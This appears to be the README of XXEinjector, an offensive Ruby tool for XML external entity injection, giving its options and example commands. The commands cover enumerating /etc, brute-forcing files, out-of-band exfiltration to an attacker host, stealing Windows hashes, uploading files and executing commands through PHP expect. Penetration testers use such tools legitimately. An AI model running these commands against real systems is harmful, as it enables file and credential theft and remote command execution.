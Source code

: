 ## XXEinjector

XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

## Options:<br />
```
  --host	    Mandatory - our IP address for reverse connections. (--host=192.168.0.2)
  --file	    Mandatory - file containing valid HTTP request with xml. You can also mark with "XXEINJECT" a point where DTD should be injected. (--file=/tmp/req.txt)
  --path	    Mandatory if enumerating directories - Path to enumerate. (--path=/etc)
  --brute	    Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)
  --logger	    Log results only. Do not send requests. HTTP logger looks for "p" parameter with results.
  
  --rhost	    Remote host's IP address or domain name. Use this argument only for requests without Host header. (--rhost=192.168.0.3)
  --rport	    Remote host's TCP port. Use this argument only for requests without Host header and for non-default values. (--rport=8080)

  --oob		    Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)
  --direct	    Use direct exploitation instead of out of band. Unique mark should be specified as a value for this argument. This mark specifies where results of XXE start and end. Specify --direct-xml to see how XML in request file should look like or --localdtd-xml if you want to use local DTD during exploitation. In case of any problems with start and end marks when special characters are present in reponse before or after output data please use Burp Proxy match and replace option to replace that. (--direct=UNIQUEMARKSTART,UNIQUEMARKEND)
  --cdata	    Improve direct exploitation with CDATA. Data is retrieved directly, however OOB is used to construct CDATA payload. Specify --cdata-xml to see how request should look like in this technique.
  --2ndfile	    File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)
  --phpfilter	Use PHP filter to base64 encode target file before sending.
  --netdoc      Use netdoc protocol instead of file (Java).
  --enumports	Enumerating unfiltered ports for reverse connection. Specify value "all" to enumerate all TCP ports. (--enumports=21,22,80,443,445)

  --hashes	    Steals Windows hash of the user that runs an application.
  --expect	    Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)
  --upload	    Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)
  --xslt	    Tests for XSLT injection.

  --ssl		    Use SSL.
  --proxy	    Proxy to use. (--proxy=127.0.0.1:8080)
  --httpport	Set custom HTTP port. (--httpport=80)
  --ftpport	    Set custom FTP port. (--ftpport=21)
  --gopherport	Set custom gopher port. (--gopherport=70)
  --jarport	    Set custom port for uploading files using jar. (--jarport=1337)
  --xsltport	Set custom port for XSLT injection test. (--xsltport=1337)

  --test	    This mode shows request with injected payload and quits. Used to verify correctness of request without sending it to a server.
  --urlencode	URL encode injected DTD. This is default for URI.
  --nodtd	    If you want to put DTD in request by yourself. Specify "--oob-xml" to show how DTD should look like.
  --output	    Output file for bruteforcing and logger mode. By default it logs to brute.log in current directory. (--output=/tmp/out.txt)
  --timeout	    Timeout for receiving file/directory content. (--timeout=20)
  --contimeout	Timeout for closing connection with server. This is used to prevent DoS condition. (--contimeout=20)
  --fast	    Skip asking what to enumerate. Prone to false-positives.
  --verbose	    Show verbose messages.
```

## Example usage:<br />
```
  Enumerating /etc directory in HTTPS application:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
  Enumerating /etc directory using gopher for OOB method:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  Second order exploitation:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  Bruteforcing files using HTTP out of band method and netdoc protocol:
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  Enumerating using direct exploitation:
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARKSTART,UNIQUEMARKEND
  Enumerating unfiltered ports:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  Stealing Windows hashes:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  Uploading files using Java jar:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  Executing system commands using PHP expect:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  Testing for XSLT injection:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  Log requests only:
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
```

**Disclaimer**

This repository contains tool developed strictly for educational purposes. Any misuse of the tool for illegal activities is strictly prohibited.

**Legal Notice**

It is important to understand and comply with all local laws and regulations related to cybersecurity and ethical hacking. Unauthorized access to computer systems, networks, or data is illegal and punishable by law. The developer of this repository is not responsible for any misuse of the tools contained herein.

By using the tools in this repository, you agree to use them responsibly and ethically. Always obtain explicit permission before testing or attempting to access any network, system, or data that does not belong to you.
